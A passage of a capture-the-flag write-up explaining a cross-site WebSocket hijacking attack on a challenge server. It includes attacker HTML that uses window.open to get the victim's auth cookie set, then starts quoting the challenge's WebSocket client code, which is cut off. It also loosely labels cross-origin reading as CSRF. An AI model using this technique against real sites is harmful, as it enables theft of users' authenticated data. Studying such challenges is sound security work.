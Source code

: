 This endpoint allows us to achieve arbitrary CSRF, just to facilitate the challenge.

---

#### About WebSockets

> WebSocket is a computer communication protocol... uses the HTTP Upgrade Header to **change from HTTP to WebSocket**. - Wikipedia

WebSockets are generally initiated from a normal HTTP request, and upgraded by the server response to a WebSocket. 

#### Same-Origin Policy

HTTP requests are protected by SOP, which means that `fetch()` is only allowed to return data to JavaScript from, say, `example.com` domain, if it's invoked from an `example.com` page, and not from an `not-example.com` page. Regardless of which domain it's from, the request will still be made; SOP only dictates whether the response can be read from the page `fetch()` was invoked.

This protects `example.com` from malicious requests originating from attacker servers, which try to read sensitive data through the client. (known as Cross-Site Request Forgery)

WebSockets are not protected by SOP! This means that we (the attacking server) can read the data the client receives, and potentially leak it. 

---

Now that we know what WebSockets can do, let's try to exploit it!

#### Part 1: Auth cookie

How to deal with the Auth cookie? Since it's HttpOnly, we can't access the cookie via JavaScript :((

But since WebSockets are upgraded from HTTP, this means that we don't even need access to the cookie; when the client connects to the WebSocket, as long as they already have the cookie cached in the browser, it will be sent together with the WebSocket connection.

Thus, we need a way to request /auth directly in the browser, and still retain control after that.

`window.open()` is perfect for this. It opens a new window with the specified URL.

```html
<script>
	window.open('http://challs.nusgreyhats.org:12326/auth');
	window.open('http://challs.nusgreyhats.org:12326/');
</script>
```

> Remember to open a new page to allow the browser to cache the cookie! (ps. this cost me my first blood)

#### Part 2: WebSocket

Making a request to a WebSocket isn't as easy as HTTP. Lucklily, we don't need to implement our own as the challenge kindly provides one for us.

```js
function connect() {
	var host = "ws://localhost:7070/quote";
	socket = new WebSocket(host);
	try {

		socket.onopen = function(msg) {
			console.log(msg);
			socket.send("getquote");
			// alert("连接成功！");
		};

		socket.onmessage = function(msg) {
			if (typeof msg.data == "string") {
```